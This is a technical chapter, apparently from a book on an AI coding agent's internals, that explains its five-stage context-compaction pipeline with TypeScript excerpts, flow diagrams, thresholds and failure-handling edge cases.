The five stages are: (1) history_snip, a deterministic message-pruning pass; (2) microcompact, which clears old tool results either via cache-editing or content-replacement; (3) context collapse, an aggressive server-side compaction triggered at critical token thresholds; (4) autocompact, a model-summarization pass initiated when the context window approaches capacity; and (5) hard reset, the fallback when no other strategy succeeds. Each stage operates at a different point in the query loop and has different cost, latency, and information-loss profiles.

```mermaid
flowchart TD
    A[Query Loop Iteration] --> B{Stage 1: HISTORY_SNIP}
    B --> C{Stage 2: Microcompact}
    C --> D{Time-based gap > 60 min?}
    D -->|yes| E[Content-clear old tool results]
    D -->|no| F{Cached MC enabled?}
    F -->|yes| G[Queue cache_edits for API]
    F -->|no| H[No microcompact action]
    E --> I[API Call]
    G --> I
    H --> I
    I --> J{Stage 3: Context Collapse}
    J -->|90% threshold| K[Commit conversation state]
    J -->|95% threshold| L[Block new subagent spawns]
    J -->|below threshold| M{Stage 4: Autocompact}
    K --> M
    L --> M
    M -->|token threshold exceeded| N[Try session-memory compact]
    N -->|success| O[Preserve recent messages + SM notes]
    N -->|fallback| P[Legacy compactConversation]
    P --> Q[Forked agent generates summary]
    Q --> R[Build CompactionResult]
    O --> R
    M -->|below threshold| S[Continue without compaction]
    R --> T{Stage 5: Hard Reset}
    T -->|prompt_too_long| U[User must manually intervene]
    T -->|compaction succeeded| V[Resume query loop]
```

The diagram shows the progressive escalation from lightweight pruning (stage 1) through model-summarization (stage 4) to the hard-reset fallback (stage 5). Each stage can short-circuit the pipeline: if history snip frees enough tokens, later stages may not fire; if microcompact clears enough tool results, autocompact may not trigger; if session-memory compaction succeeds, the legacy model-summarization path is skipped.

The implementation spans `src/services/compact/` (compact.ts at ~1705 LOC, autoCompact.ts at ~351 LOC, microCompact.ts at ~530 LOC, sessionMemoryCompact.ts at ~630 LOC, postCompactCleanup.ts at ~77 LOC, apiMicrocompact.ts at ~153 LOC, grouping.ts, compactWarningHook.ts, compactWarningState.ts). The history-snip module is feature-gated behind `feature('HISTORY_SNIP')` and loaded via `require()` at runtime; the context-collapse module is similarly gated behind `feature('CONTEXT_COLLAPSE')` with a dynamic import to break a circular dependency. This chapter examines each stage's trigger conditions, data structures, control flow, and the invariants that must hold across stage boundaries.

## Data structures and contracts

### CompactionResult interface

All compaction stages that produce model-visible output converge on the `CompactionResult` interface defined in `src/services/compact/compact.ts`:

```typescript
// src/services/compact/compact.ts:L299-L310
export interface CompactionResult {
  boundaryMarker: SystemMessage
  summaryMessages: UserMessage[]
  attachments: AttachmentMessage[]
  hookResults: HookResultMessage[]
  messagesToKeep?: Message[]
  userDisplayMessage?: string
  preCompactTokenCount?: number
  postCompactTokenCount?: number
  truePostCompactTokenCount?: number
  compactionUsage?: ReturnType<typeof getTokenUsage>
}
```

The `boundaryMarker` is a `SystemCompactBoundaryMessage` that records the compaction type (auto or manual), the pre-compact token count, the UUID of the last message before compaction, and optional metadata about preserved segments and discovered tools. The `summaryMessages` array contains the compressed representation of the conversation (either a model-generated summary or session memory content). The `attachments` array carries re-injected file references, plan content, invoked skills, and tool-delta attachments that restore context lost during compaction. The `messagesToKeep` field is populated by partial compaction and session-memory compaction; when present, it holds the verbatim recent messages that survive summarization.

The `buildPostCompactMessages` function enforces a canonical ordering across all compaction paths:

```typescript
// src/services/compact/compact.ts:L330-L338
export function buildPostCompactMessages(result: CompactionResult): Message[] {
  return [
    result.boundaryMarker,
    ...result.summaryMessages,
    ...(result.messagesToKeep ?? []),
    ...result.attachments,
    ...result.hookResults,
  ]
}
```

Boundary marker first, then summary, then preserved messages, then attachments, then hook results. This ordering matters for the session JSONL loader, which walks the list from tail to head when reconstructing the conversation chain.

### MicrocompactResult and PendingCacheEdits

The microcompact stage uses a lighter result type since it does not invoke the model:

```typescript
// src/services/compact/microCompact.ts:L215-L220
export type MicrocompactResult = {
  messages: Message[]
  compactionInfo?: {
    pendingCacheEdits?: PendingCacheEdits
  }
}
```

The `PendingCacheEdits` type carries the list of tool-use IDs to be deleted via the cache-editing API, along with a baseline cumulative `cache_deleted_input_tokens` value for computing per-operation deltas:

```typescript
// src/services/compact/microCompact.ts:L207-L213
export type PendingCacheEdits = {
  trigger: 'auto'
  deletedToolIds: string[]
  baselineCacheDeletedTokens: number
}
```

This separation exists because cached microcompact does not modify local message content. Instead, it queues a `cache_edits` block that the API layer inserts into the next request. The actual content deletion happens server-side, preserving the client-side message array for the UI while reducing the tokens the model processes.

### RecompactionInfo

When compaction fires on a turn that already follows a previous compaction, cc records diagnostic metadata to help the telemetry pipeline distinguish same-chain loops from cross-agent and manual-vs-auto compactions:

```typescript
// src/services/compact/compact.ts:L317-L323
export type RecompactionInfo = {
  isRecompactionInChain: boolean
  turnsSincePreviousCompact: number
  previousCompactTurnId?: string
  autoCompactThreshold: number
  querySource?: QuerySource
}
```

The `isRecompactionInChain` flag is true when the current compaction is triggered on a turn where the previous turn also compacted. The `turnsSincePreviousCompact` counter tracks the gap between compaction events. These fields feed into the `tengu_compact` analytics event, enabling post-hoc analysis of compaction chains without requiring expensive cross-session joins.

### TimeBasedMCConfig

The time-based microcompact path is controlled by a GrowthBook configuration type:

```typescript
// src/services/compact/timeBasedMCConfig.ts:L18-L28
export type TimeBasedMCConfig = {
  enabled: boolean
  gapThresholdMinutes: number
  keepRecent: number
}
```

The defaults are `enabled: false`, `gapThresholdMinutes: 60`, `keepRecent: 5`. The 60-minute threshold is chosen to match the server-side prompt-cache TTL: if the gap since the last assistant message exceeds 60 minutes, the cached prefix has almost certainly expired, so the full prompt will be rewritten regardless. Clearing old tool results before that rewrite shrinks what gets rewritten, saving cache-creation tokens.

### SessionMemoryCompactConfig

Session-memory compaction uses its own configuration type with three thresholds:

```typescript
// src/services/compact/sessionMemoryCompact.ts:L47-L54
export type SessionMemoryCompactConfig = {
  minTokens: number
  minTextBlockMessages: number
  maxTokens: number
}
```

The defaults are `minTokens: 10_000`, `minTextBlockMessages: 5`, `maxTokens: 40_000`. The `minTokens` floor ensures the model retains enough working context to continue its task. The `minTextBlockMessages` floor ensures at least five messages with text blocks survive, preventing the model from losing its most recent instructions. The `maxTokens` cap prevents the preserved tail from consuming too much of the post-compact context budget.

## Control flow

### Stage 1: History snip (HISTORY_SNIP)

History snip is the lightest compaction stage. It runs deterministically at the start of each query loop iteration, before the API call, and prunes messages that are no longer needed for the conversation to remain coherent. The implementation is feature-gated behind `feature('HISTORY_SNIP')` and lazily loaded via `require()` in `src/query.ts` to avoid pulling in its dependency chain in builds where the feature is disabled.

The query loop in `src/query.ts` invokes snip before microcompact:

```typescript
// src/query.ts:L396-L408
// Apply snip before microcompact (both may run — they are not mutually exclusive).
// snipTokensFreed is plumbed to autocompact so its threshold check reflects
// what snip removed; tokenCountWithEstimation alone can't see it (reads usage
// from the protected-tail assistant, which survives snip unchanged).
let snipTokensFreed = 0
if (feature('HISTORY_SNIP')) {
  queryCheckpoint('query_snip_start')
  const snipResult = snipModule!.snipCompactIfNeeded(messagesForQuery)
  messagesForQuery = snipResult.messages
  snipTokensFreed = snipResult.tokensFreed
  if (snipResult.boundaryMessage) {
    yield snipResult.boundaryMessage
  }
}
```

The `snipTokensFreed` value is threaded through to the autocompact threshold check because snip removes messages from the conversation array but the surviving assistant message's `usage` field still reflects the pre-snip token count. Without this correction, autocompact would see inflated token usage and trigger unnecessarily.

History snip's key design principle is that it operates on messages the model has already processed. It does not change what the model sees on the current turn; it only removes messages that are no longer needed for future turns. This makes it safe to run on every iteration without risk of disrupting the current API call.

### Stage 2: Microcompact

Microcompact runs after history snip but before the API call. It has two sub-paths: cached microcompact (which uses the cache-editing API to delete tool results without invalidating the cached prompt prefix) and time-based microcompact (which content-clears old tool results when the server cache has expired). The entry point is `microcompactMessages` in `src/services/compact/microCompact.ts`:

```typescript
// src/services/compact/microCompact.ts:L253-L293
export async function microcompactMessages(
  messages: Message[],
  toolUseContext?: ToolUseContext,
  querySource?: QuerySource,
): Promise<MicrocompactResult> {
  clearCompactWarningSuppression()

  const timeBasedResult = maybeTimeBasedMicrocompact(messages, querySource)
  if (timeBasedResult) {
    return timeBasedResult
  }

  if (feature('CACHED_MICROCOMPACT')) {
    const mod = await getCachedMCModule()
    const model = toolUseContext?.options.mainLoopModel ?? getMainLoopModel()
    if (
      mod.isCachedMicrocompactEnabled() &&
      mod.isModelSupportedForCacheEditing(model) &&
      isMainThreadSource(querySource)
    ) {
      return await cachedMicrocompactPath(messages, querySource)
    }
  }

  return { messages }
}
```

The function first attempts time-based microcompact, which short-circuits if the gap since the last assistant message exceeds the configured threshold. If time-based does not fire, it falls through to cached microcompact, which uses cache-editing to delete tool results from the server's cached prefix. Both paths are main-thread-only: subagents (session_memory, prompt_suggestion, marble_origami) are excluded because they share the process's module-level state, and allowing them to register tool results in the global `cachedMCState` would cause the main thread to attempt deleting tools that do not exist in its own conversation.

The set of compactable tools is defined as a constant:

```typescript
// src/services/compact/microCompact.ts:L41-L50
const COMPACTABLE_TOOLS = new Set<string>([
  FILE_READ_TOOL_NAME,
  ...SHELL_TOOL_NAMES,
  GREP_TOOL_NAME,
  GLOB_TOOL_NAME,
  WEB_SEARCH_TOOL_NAME,
  WEB_FETCH_TOOL_NAME,
  FILE_EDIT_TOOL_NAME,
  FILE_WRITE_TOOL_NAME,
])
```

These are the tools whose results are most likely to be large and least likely to be needed on subsequent turns. A file read result, for instance, can consume thousands of tokens but is usually consumed by the model on the turn it was produced. By contrast, tool results from tools like AgentTool or SkillTool contain structured data that the model may reference later and are not compactable.

#### Cached microcompact path

The cached microcompact path uses the Anthropic cache-editing API to remove tool results from the server's cached prompt prefix without invalidating the cache. This is the preferred path when the cache is warm (the gap since the last request is under the server's TTL). The path works by:

1. Collecting all compactable tool-use IDs from assistant messages.
2. Registering tool results grouped by user message, tracking which have already been registered and which are new.
3. Computing which tool results to delete based on GrowthBook-configured trigger and keep-recent thresholds.
4. Creating a `CacheEditsBlock` that is queued as `pendingCacheEdits`.
5. Returning messages unchanged; the cache edits are applied at the API layer.

A critical detail is that after a successful cached microcompact, the code notifies the prompt-cache-break detection system:

```typescript
// src/services/compact/microCompact.ts:L362-L367
if (feature('PROMPT_CACHE_BREAK_DETECTION')) {
  notifyCacheDeletion(querySource ?? 'repl_main_thread')
}
```

This prevents the cache-break detector from flagging the legitimate drop in cache-read tokens that follows a cache edit as a false-positive "cache break" event.

#### Time-based microcompact path

The time-based path fires when the gap since the last main-loop assistant message exceeds the configured threshold (default 60 minutes). Unlike cached microcompact, it mutates message content directly, replacing tool result content with a sentinel string:

```typescript
// src/services/compact/microCompact.ts:L36
export const TIME_BASED_MC_CLEARED_MESSAGE = '[Old tool result content cleared]'
```

The path keeps at least the most recent `keepRecent` (default 5) compactable tool results intact. The floor is clamped to 1 because `slice(-0)` returns the full array (keeping everything), and clearing all results would leave the model with zero working context.

After time-based microcompact fires, it resets the cached microcompact state:

```typescript
// src/services/compact/microCompact.ts:L517
resetMicrocompactState()
```

This is necessary because the cached-MC state holds tool IDs registered on prior turns. Content-clearing some of those tools and invalidating the server cache means that if cached-MC runs on the next turn with stale state, it would attempt to cache-edit tools whose server-side entries no longer exist.

The following diagram illustrates the full microcompact pass, showing how the two sub-paths branch and merge:

```mermaid
sequenceDiagram
    participant QL as Query Loop
    participant MC as microcompactMessages()
    participant TB as maybeTimeBasedMicrocompact()
    participant CM as cachedMicrocompactPath()
    participant API as API Layer

    QL->>MC: messages, toolUseContext, querySource
    MC->>MC: clearCompactWarningSuppression()
    MC->>TB: messages, querySource
    alt Gap > threshold & main thread
        TB->>TB: Content-clear old tool results
        TB->>TB: Keep recent N compactable results
        TB->>TB: resetMicrocompactState()
        TB-->>MC: MicrocompactResult (mutated messages)
    else Gap below threshold
        TB-->>MC: null (fall through)
        alt CACHED_MICROCOMPACT feature enabled
            MC->>CM: messages, querySource
            CM->>CM: Collect compactable tool-use IDs
            CM->>CM: Compute deletions (trigger + keep-recent)
            CM->>CM: Queue pendingCacheEdits
            CM->>API: cache_edits block on next request
            CM->>CM: notifyCacheDeletion()
            CM-->>MC: MicrocompactResult (pendingCacheEdits)
        else Feature disabled or unsupported model
            MC-->>QL: { messages } (unchanged)
        end
    end
```

The diagram shows the two-phase decision: time-based microcompact is tried first because it handles the case where the server cache has expired (making cache-editing pointless). Cached microcompact runs only when the cache is still warm, queuing server-side deletions that reduce tokens without invalidating the cached prefix.

### Compact warning suppression

Microcompact and autocompact interact with a compact-warning suppression mechanism implemented in `src/services/compact/compactWarningHook.ts` and `src/services/compact/compactWarningState.ts`. The `compactWarningStore` is a tiny boolean store that tracks whether the "context left until autocompact" warning should be suppressed:

```typescript
// src/services/compact/compactWarningState.ts:L8-L18
export const compactWarningStore = createStore<boolean>(false)

export function suppressCompactWarning(): void {
  compactWarningStore.setState(() => true)
}

export function clearCompactWarningSuppression(): void {
  compactWarningStore.setState(() => false)
}
```

Suppression is activated immediately after successful compaction because token counts are not accurate until the next API response. Without suppression, the UI would flash a warning for the one or two turns between compaction completing and the first post-compact API call returning an updated usage count. The `useCompactWarningSuppression` React hook in `compactWarningHook.ts` subscribes to the store so the UI re-renders when suppression state changes. This hook is separated into its own file to keep `compactWarningState.ts` React-free, since `microCompact.ts` imports the pure state functions and pulling React into that module graph would drag it into the print-mode startup path.

### Stage 3: Context collapse

Context collapse is the most aggressive compaction stage short of a full hard reset. It is triggered when token usage exceeds critical thresholds (90% of the effective context window for the commit phase, 95% for the blocking-spawn phase). When active, context collapse suppresses both autocompact and time-based microcompact, owning the headroom problem entirely.

The suppression logic lives in `shouldAutoCompact` in `src/services/compact/autoCompact.ts`:

```typescript
// src/services/compact/autoCompact.ts:L215-L223
if (feature('CONTEXT_COLLAPSE')) {
  const { isContextCollapseEnabled } =
    require('../contextCollapse/index.js') as typeof import('../contextCollapse/index.js')
  if (isContextCollapseEnabled()) {
    return false
  }
}
```

The `require()` call is used instead of a static import to break a circular dependency: `autoCompact.ts` exports `getEffectiveContextWindowSize`, which context collapse's index module imports. A static import would create an init-time cycle. The `feature('CONTEXT_COLLAPSE')` gate ensures the string and the `require()` are eliminated from external builds via dead code elimination.

Context collapse operates differently from the other stages. Rather than summarizing or trimming messages, it commits the current conversation state to a persistent log and then prunes the in-memory conversation to a minimal working set. The committed log preserves the full conversation history for the session transcript, while the in-memory conversation carries only the most recent context needed to continue the task. This approach trades disk space for context-window headroom, ensuring the model can continue working even when the conversation has grown far beyond the context window.

The context-collapse module also handles the blocking-spawn phase. When token usage reaches 95% of the effective context window, the system blocks the spawning of new subagents, preventing the conversation from growing further. This is a back-pressure mechanism: rather than allowing the conversation to grow until it crashes, the system throttles the inflow of new content.

### Stage 4: Autocompact

Autocompact is the most commonly encountered compaction stage. It fires when the context window approaches capacity, initiating a model-summarization pass that replaces the conversation with a compressed summary. The entry point is `autoCompactIfNeeded` in `src/services/compact/autoCompact.ts`.

#### Threshold calculation

The autocompact threshold is computed relative to the effective context window size:

```typescript
// src/services/compact/autoCompact.ts:L72-L91
export function getAutoCompactThreshold(model: string): number {
  const effectiveContextWindow = getEffectiveContextWindowSize(model)
  const autocompactThreshold =
    effectiveContextWindow - AUTOCOMPACT_BUFFER_TOKENS
  // ...
  return autocompactThreshold
}
```

The `AUTOCOMPACT_BUFFER_TOKENS` constant is set to 13,000. This buffer accounts for the system prompt, tool definitions, and user context that are not counted in the message-level token estimate but still consume context-window space. The effective context window itself is the model's full context window minus a reserve for the compaction summary output:

```typescript
// src/services/compact/autoCompact.ts:L33-L49
export function getEffectiveContextWindowSize(model: string): number {
  const reservedTokensForSummary = Math.min(
    getMaxOutputTokensForModel(model),
    MAX_OUTPUT_TOKENS_FOR_SUMMARY,
  )
  let contextWindow = getContextWindowForModel(model, getSdkBetas())
  const autoCompactWindow = process.env.CLAUDE_CODE_AUTO_COMPACT_WINDOW
  if (autoCompactWindow) {
    const parsed = parseInt(autoCompactWindow, 10)
    if (!isNaN(parsed) && parsed > 0) {
      contextWindow = Math.min(contextWindow, parsed)
    }
  }
  return contextWindow - reservedTokensForSummary
}
```

The `MAX_OUTPUT_TOKENS_FOR_SUMMARY` constant is 20,000, based on the p99.99 of compact summary output being 17,387 tokens. The `CLAUDE_CODE_AUTO_COMPACT_WINDOW` environment variable allows overriding the effective window for testing purposes.

#### Should-fire checks

The `shouldAutoCompact` function implements a series of guard checks before deciding whether compaction should proceed:

1. **Recursion guards**: Compaction is suppressed for `session_memory` and `compact` query sources to prevent deadlocks (a compact agent trying to compact itself would loop forever).

2. **Context collapse guard**: When context collapse is enabled and active, autocompact is suppressed because collapse owns the headroom problem. Autocompact at the effective-13k threshold (~93% of effective) would race collapse's commit-start (90%) and usually win, destroying granular context that collapse was about to save.

3. **Reactive-only mode**: When the `REACTIVE_COMPACT` feature flag is active and the `tengu_cobalt_raccoon` GrowthBook flag is true, proactive autocompact is suppressed. Only reactive compaction (triggered by the API's `prompt_too_long` error) is allowed.

4. **Environment overrides**: `DISABLE_COMPACT` disables all compaction; `DISABLE_AUTO_COMPACT` disables automatic compaction while keeping manual `/compact` working.

5. **Token threshold check**: After all guards pass, the function estimates the current token count and compares it against the autocompact threshold.

The following diagram illustrates the autocompact decision flow:

```mermaid
flowchart TD
    A[autoCompactIfNeeded called] --> B{Circuit breaker tripped?}
    B -->|3+ consecutive failures| C[Return: wasCompacted=false]
    B -->|no| D[shouldAutoCompact checks]
    D --> E{session_memory source?}
    E -->|yes| C
    E -->|no| F{compact source?}
    F -->|yes| C
    F -->|no| G{Context collapse active?}
    G -->|yes| C
    G -->|no| H{Reactive-only mode?}
    H -->|yes| C
    H -->|no| I{Auto-compact disabled?}
    I -->|yes| C
    I -->|no| J{Tokens above threshold?}
    J -->|no| C
    J -->|yes| K[Try session-memory compaction]
    K -->|success| L[Return: wasCompacted=true]
    K -->|fallback| M[compactConversation]
    M -->|success| L
    M -->|failure| N[Increment failure count]
    N --> O{3+ consecutive?}
    O -->|yes| P[Trip circuit breaker]
    P --> C
    O -->|no| Q[Return: wasCompacted=false]
```

This decision tree shows the multiple guard checks that prevent unnecessary or dangerous compaction. The circuit breaker at the top prevents unbounded retries in sessions where compaction consistently fails.

The following state diagram captures the complete compaction trigger hierarchy, showing how the five stages relate as states and what transitions cause escalation from one stage to the next:

```mermaid
stateDiagram-v2
    [*] --> Normal: Session starts
    Normal --> HistorySnip: Every query iteration
    HistorySnip --> Normal: Tokens freed, below threshold
    HistorySnip --> Microcompact: Snip insufficient
    state Microcompact {
        [*] --> TimeBasedCheck
        TimeBasedCheck --> TimeBasedMC: Gap > 60 min
        TimeBasedCheck --> CachedMC: Gap <= 60 min & cache warm
        TimeBasedCheck --> NoAction: Cache cold or disabled
    }
    Microcompact --> Normal: Tokens freed
    Microcompact --> ContextCollapse: Usage >= 90% window
    ContextCollapse --> CommitPhase: Usage >= 90% effective
    CommitPhase --> BlockSpawn: Usage >= 95% effective
    BlockSpawn --> Autocompact: Collapse committed
    ContextCollapse --> Autocompact: Below 90% but above auto threshold
    state Autocompact {
        [*] --> Guards
        Guards --> SessionMemoryCompact: All guards pass & session memory available
        Guards --> LegacyCompact: All guards pass & no session memory
        Guards --> Blocked: Guard fails (recursion, reactive-only, disabled)
        SessionMemoryCompact --> Success: Threshold met
        SessionMemoryCompact --> LegacyCompact: Fallback
        LegacyCompact --> Success: Summary generated
        LegacyCompact --> CircuitBreaker: 3+ consecutive failures
        CircuitBreaker --> Blocked
    }
    Autocompact --> Normal: Compaction succeeded
    Autocompact --> HardReset: prompt_too_long & all paths failed
    HardReset --> [*]: User intervenes manually
```

The diagram shows the key property of the hierarchy: each stage can succeed and return the system to normal operation, or fail and escalate to the next stage. Context collapse is the only stage that blocks lower stages (it suppresses autocompact and time-based microcompact while active). The hard reset is a terminal state requiring manual intervention; there is no automatic recovery path.

#### Session-memory compaction first

When autocompact does fire, it first attempts session-memory compaction before falling back to the legacy model-summarization path:

```typescript
// src/services/compact/autoCompact.ts:L288-L310
const sessionMemoryResult = await trySessionMemoryCompaction(
  messages,
  toolUseContext.agentId,
  recompactionInfo.autoCompactThreshold,
)
if (sessionMemoryResult) {
  setLastSummarizedMessageId(undefined)
  runPostCompactCleanup(querySource)
  if (feature('PROMPT_CACHE_BREAK_DETECTION')) {
    notifyCompaction(querySource ?? 'compact', toolUseContext.agentId)
  }
  markPostCompaction()
  return {
    wasCompacted: true,
    compactionResult: sessionMemoryResult,
  }
}
```

Session-memory compaction uses the notes extracted by the session memory system (Chapter 27) instead of invoking the model to generate a new summary. This eliminates the compaction API call entirely, reducing cost and latency. The `trySessionMemoryCompaction` function (in `src/services/compact/sessionMemoryCompact.ts`) checks whether session memory is available and non-empty, waits for any in-progress extraction to complete, and then computes the messages to keep.

The key calculation is `calculateMessagesToKeepIndex`, which determines the boundary between summarized and preserved messages:

```typescript
// src/services/compact/sessionMemoryCompact.ts:L324-L397
export function calculateMessagesToKeepIndex(
  messages: Message[],
  lastSummarizedIndex: number,
): number {
  // Start from the message after lastSummarizedIndex
  let startIndex =
    lastSummarizedIndex >= 0 ? lastSummarizedIndex + 1 : messages.length

  // Calculate current tokens and text-block message count
  let totalTokens = 0
  let textBlockMessageCount = 0
  for (let i = startIndex; i < messages.length; i++) {
    const msg = messages[i]!
    totalTokens += estimateMessageTokens([msg])
    if (hasTextBlocks(msg)) {
      textBlockMessageCount++
    }
  }

  // Expand backwards until we meet both minimums or hit max cap
  const idx = messages.findLastIndex(m => isCompactBoundaryMessage(m))
  const floor = idx === -1 ? 0 : idx + 1
  for (let i = startIndex - 1; i >= floor; i--) {
    // ... expand backwards
  }

  return adjustIndexToPreserveAPIInvariants(messages, startIndex)
}
```

The expansion stops at the last compact boundary (the "floor"), ensuring that the preserved segment does not cross a compaction discontinuity. This is important because the session JSONL loader uses a tail-to-head walk to reconstruct the conversation chain, and crossing a boundary would create an invalid chain.

The `adjustIndexToPreserveAPIInvariants` function handles two edge cases that arise from the streaming protocol's message-id merging behavior:

1. **Tool-use/tool-result pairs**: If the preserved messages contain a `tool_result` whose matching `tool_use` falls before the computed start index, the index is adjusted backward to include the `tool_use`. Otherwise, `normalizeMessagesForAPI` would produce an orphan `tool_result` that the API rejects.

2. **Thinking blocks sharing message.id**: Streaming yields separate messages per content block (thinking, tool_use) with the same `message.id` but different UUIDs. If the start index lands on one of these streaming messages, the function adjusts backward to include all messages with the same `message.id`, ensuring thinking blocks are properly merged during normalization.

#### Legacy compaction (model summarization)

When session-memory compaction is unavailable (no session memory file, empty template, or threshold exceeded), autocompact falls back to the legacy path via `compactConversation`. This function:

1. **Executes pre-compact hooks**: Allows hooks to modify custom instructions or display messages.
2. **Prepares the summary request**: Creates a user message containing the compact prompt.
3. **Streams the compact summary**: Attempts the forked-agent path first (for cache sharing), falling back to regular streaming if that fails.
4. **Handles prompt-too-long retries**: If the compact request itself exceeds the context limit, `truncateHeadForPTLRetry` drops the oldest API-round groups and retries up to three times.
5. **Creates post-compact attachments**: Re-injects file references, plan content, invoked skills, and tool-delta attachments.
6. **Executes session-start and post-compact hooks**: Restores CLAUDE.md context and runs user-specified hooks.

The compact prompt is defined in `src/services/compact/prompt.ts`. It instructs the model to produce an `<analysis>` block (a drafting scratchpad) followed by a `<summary>` block with nine standard sections. The `formatCompactSummary` function strips the analysis block and converts the summary XML tags to readable section headers before the summary enters the post-compact conversation.

The prompt includes a critical preamble designed to prevent the model from calling tools during compaction:

```typescript
// src/services/compact/prompt.ts:L19-L24
const NO_TOOLS_PREAMBLE = `CRITICAL: Respond with TEXT ONLY. Do NOT call any tools.

- Do NOT use Read, Bash, Grep, Glob, Edit, Write, or ANY other tool.
- You already have all the context you need in the conversation above.
- Tool calls will be REJECTED and will waste your only turn — you will fail the task.
- Your entire response must be plain text: an <analysis> block followed by a <summary> block.`
```

This preamble was added because adaptive-thinking models (Sonnet 4.6+) sometimes attempt tool calls despite the trailer instruction. With `maxTurns: 1`, a denied tool call means no text output, causing the fork to fall through to the streaming fallback path (2.79% on 4.6 vs. 0.01% on 4.5).

#### Circuit breaker

Autocompact includes a circuit breaker that stops retrying after a configurable number of consecutive failures:

```typescript
// src/services/compact/autoCompact.ts:L68-L70
const MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES = 3
```

Without this guard, sessions where the context is irrecoverably over the limit would hammer the API with doomed compaction attempts on every turn. Data from March 2026 showed 1,279 sessions with 50+ consecutive failures (up to 3,272), wasting approximately 250K API calls per day globally. The circuit breaker threads the failure count through `AutoCompactTrackingState`, which is carried across query loop iterations.

### Stage 5: Hard reset

Hard reset is the fallback when all other compaction stages have failed or are disabled. It occurs when the API returns a `prompt_too_long` error and no compaction strategy can reduce the context enough to proceed. The user sees the error message:

```typescript
// src/services/compact/compact.ts:L293-L294
export const ERROR_MESSAGE_PROMPT_TOO_LONG =
  'Conversation too long. Press esc twice to go up a few messages and try again.'
```

Hard reset is not a programmatic stage but a user-facing escape hatch. The user must manually intervene, typically by using the message selector to remove old messages or by starting a new session with `--resume` to continue from a checkpoint.

### Partial compaction

In addition to the five automatic stages, cc supports partial compaction via the message selector UI. The `partialCompactConversation` function in `src/services/compact/compact.ts` allows users to summarize only a portion of the conversation, preserving either the prefix or the suffix:

```typescript
// src/services/compact/compact.ts:L772-L779
export async function partialCompactConversation(
  allMessages: Message[],
  pivotIndex: number,
  context: ToolUseContext,
  cacheSafeParams: CacheSafeParams,
  userFeedback?: string,
  direction: PartialCompactDirection = 'from',
): Promise<CompactionResult>
```

The `direction` parameter controls which half is summarized:

- **'from'**: Summarizes messages after the pivot index, keeping earlier ones. The prompt cache for kept (earlier) messages is preserved.
- **'up_to'**: Summarizes messages before the pivot index, keeping later ones. The prompt cache is invalidated since the summary precedes the kept messages.

For 'up_to' direction, old compact boundary messages and compact summaries are stripped from the kept portion. This prevents a stale boundary from the old half from winning `findLastCompactBoundaryIndex`'s backward scan and causing the loader to drop the new summary.

The boundary marker for partial compaction includes a `preservedSegment` annotation that records the head, anchor, and tail UUIDs of the preserved messages:

```typescript
// src/services/compact/compact.ts:L349-L367
export function annotateBoundaryWithPreservedSegment(
  boundary: SystemCompactBoundaryMessage,
  anchorUuid: UUID,
  messagesToKeep: readonly Message[] | undefined,
): SystemCompactBoundaryMessage {
  const keep = messagesToKeep ?? []
  if (keep.length === 0) return boundary
  return {
    ...boundary,
    compactMetadata: {
      ...boundary.compactMetadata,
      preservedSegment: {
        headUuid: keep[0]!.uuid,
        anchorUuid,
        tailUuid: keep.at(-1)!.uuid,
      },
    },
  }
}
```

This annotation is used by the session JSONL loader to patch the chain links when messages survive compaction but are repositioned in the conversation array. Without it, the loader's tail-to-head walk would skip preserved messages that were dedup-skipped during the write phase.

## Edge cases and failure modes

### Prompt-too-long during compaction itself

One of the most insidious failure modes is when the compaction API call itself exceeds the context limit. This happens when the conversation is so large that even the summarization request cannot fit within the model's context window. The `truncateHeadForPTLRetry` function handles this by dropping the oldest API-round groups until the estimated token count falls below the gap reported by the API:

```typescript
// src/services/compact/compact.ts:L243-L291
export function truncateHeadForPTLRetry(
  messages: Message[],
  ptlResponse: AssistantMessage,
): Message[] | null {
  // Strip synthetic marker from a previous retry before grouping
  const input =
    messages[0]?.type === 'user' &&
    messages[0].isMeta &&
    messages[0].message.content === PTL_RETRY_MARKER
      ? messages.slice(1)
      : messages

  const groups = groupMessagesByApiRound(input)
  if (groups.length < 2) return null

  const tokenGap = getPromptTooLongTokenGap(ptlResponse)
  let dropCount: number
  if (tokenGap !== undefined) {
    let acc = 0
    dropCount = 0
    for (const g of groups) {
      acc += roughTokenCountEstimationForMessages(g)
      dropCount++
      if (acc >= tokenGap) break
    }
  } else {
    dropCount = Math.max(1, Math.floor(groups.length * 0.2))
  }
  // ...
}
```

The function groups messages by API round (one group per API round-trip) and drops groups from the oldest end. When the token gap is unparseable (some Vertex/Bedrock error formats), it falls back to dropping 20% of groups. If the resulting sequence starts with an assistant message (which the API rejects), a synthetic user marker is prepended.

This is a lossy but unblocking escape hatch. The user would otherwise be stuck in a state where compaction cannot proceed (too many tokens) and the conversation cannot continue (also too many tokens). Dropping the oldest context is the only way out.

### Subagent compaction isolation

Subagents (session_memory, prompt_suggestion, marble_origami) are excluded from autocompact and microcompact to prevent corruption of the main thread's module-level state. The `shouldAutoCompact` function checks the query source:

```typescript
// src/services/compact/autoCompact.ts:L170-L173
if (querySource === 'session_memory' || querySource === 'compact') {
  return false
}
```

And the `isMainThreadSource` function in microcompact uses prefix matching to exclude non-main-thread sources:

```typescript
// src/services/compact/microCompact.ts:L249-L251
function isMainThreadSource(querySource: QuerySource | undefined): boolean {
  return !querySource || querySource.startsWith('repl_main_thread')
}
```

The prefix-match approach (rather than strict equality) is intentional. The `promptCategory.ts` module sets the query source to `'repl_main_thread:outputStyle:<style>'` when a non-default output style is active. The bare `'repl_main_thread'` is only used for the default style. A strict equality check would silently exclude users with a non-default output style from cached microcompact, a latent bug that was fixed during the time-based microcompact implementation.

### Post-compact cleanup and main-thread guard

The `runPostCompactCleanup` function in `src/services/compact/postCompactCleanup.ts` resets caches and tracking state after compaction. It includes a critical main-thread guard:

```typescript
// src/services/compact/postCompactCleanup.ts:L31-L40
export function runPostCompactCleanup(querySource?: QuerySource): void {
  const isMainThreadCompact =
    querySource === undefined ||
    querySource.startsWith('repl_main_thread') ||
    querySource === 'sdk'

  resetMicrocompactState()
  if (feature('CONTEXT_COLLAPSE')) {
    if (isMainThreadCompact) {
      require('../contextCollapse/index.js').resetContextCollapse()
    }
  }
  if (isMainThreadCompact) {
    getUserContext.cache.clear?.()
    resetGetMemoryFilesCache('compact')
  }
  // ...
}
```

Subagents run in the same process and share module-level state with the main thread. Resetting context-collapse state or the memory-file cache when a subagent compacts would corrupt the main thread's state. The `isMainThreadCompact` check ensures only main-thread compactions trigger these resets.

